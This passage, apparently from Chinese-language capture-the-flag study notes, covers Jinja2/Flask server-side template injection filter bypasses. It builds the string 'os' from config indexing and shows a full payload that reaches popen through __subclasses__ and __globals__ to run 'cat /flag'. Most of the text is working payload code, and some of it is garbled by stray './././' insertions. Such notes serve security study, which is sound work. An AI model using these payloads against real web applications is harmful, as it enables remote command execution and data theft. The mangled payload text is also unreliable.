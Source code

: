 ## 4.也可以使用values获取所有参数

request.values.cmd

## 5.字符串拼接绕过

```
(config.__str__()[2])='o'
(config.__str__()[42])='s'

?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
等于
?name={{url_for.__globals__['os']}}
```

## 6.过滤器拼接

```
(()|select|string)[24]
```



# 9.过滤器绕过下划线过滤

## 1.request 绕过

attr()函数

原paylload

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"](./././././././././././'cat /flag').read()}}
```

![image-20240513212013589](./././././././././././SSTI/image-20240513212013589.png)
